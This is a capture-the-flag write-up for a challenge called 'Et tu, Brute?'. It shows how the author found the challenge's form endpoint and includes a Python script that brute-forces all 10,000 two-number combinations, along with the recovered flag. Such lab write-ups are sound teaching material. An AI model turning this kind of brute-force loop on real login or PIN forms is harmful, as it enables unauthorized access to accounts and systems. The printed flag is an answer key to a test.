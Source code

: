 ## Et tu, Brute? ##

This challenge was a simple brute force 2 numbers. There are 100\*100 different combinations of numbers and so it would be painful to try it by hand. Luckily using the `pwntools` library in python can help us do this in a better way.

First, we have to find where to brute force into. Using 2 random numbers and hitting the submit button, we find that the numbers are being inputted into `https://mhsctf-ettubrute.0xmmalik.repl.co/status.php`.

![Screen Shot 2022-03-12 at 8 18 54 PM](https://user-images.githubusercontent.com/81491665/158042051-4313bc4b-7345-48ce-90e2-1f6631b44ac8.png)

Great! Now for the brute forcing part. A look into the source code gives us the name of the 2 numbers.

![Screen Shot 2022-03-12 at 8 19 32 PM](https://user-images.githubusercontent.com/81491665/158042061-ee9050f6-5792-45fa-b423-43b83d2d27e5.png)

Now it is just the coding and running time which after quite a while (cuz my dusty internet is slow), we get the flag!

#Flag#
`flag{pur3_s7r3ngth}`

Full Code:
```py
import requests 
from tqdm import tqdm

url = 'https://mhsctf-ettubrute.0xmmalik.repl.co/status.php'

for i in tqdm(range(1,101)):
    for a in tqdm(range(1,101)):
        data = {"number": i, "number2": a}
        send_data_url = requests.post(url, data=data)
        #print(send_data_url.content)
        if "Sorry" not in str(send_data_url.content):
            print(str(send_data_url.content))
            break
```
